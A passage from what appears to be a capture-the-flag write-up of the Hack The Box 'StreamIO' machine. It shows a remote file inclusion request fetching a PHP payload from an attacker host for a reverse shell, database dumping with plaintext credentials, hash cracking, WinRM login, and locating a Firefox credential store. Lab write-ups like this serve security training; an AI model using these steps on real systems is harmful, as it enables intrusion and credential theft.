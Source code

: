 then go to burp and change to POST remember!! I know I saw it few lines upper but change to POST and on botton add include
```
POST /admin/?debug=master.php HTTP/2

include=http://10.10.14.8/es.php
```
2 hours of fighting and I got reverse shell :D

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915204430.png)

We saw in index.php db creds let's check it in backup db
```
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select table_name from streamio_backup.information_schema.tables;"

sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select * from users;"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915210729.png)

Now we have different usernames and passwords save it and attempt to crack simmilar method as before

```
john user --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915211002.png)

I manage to crack 1 hash 
Validating user, checking shares and checking winrm login

```
nxc smb streamio.htb -u nikk37 -p 'get_dem_girls2@yahoo.com'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915211225.png)

We got it, now we can connect vi evli-winrm

```
evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915211419.png)

Grab user.txt and let's dig for administrator

## Privilege Escalation

Starting with winpeas I found:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915212023.png)
```
C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db
```
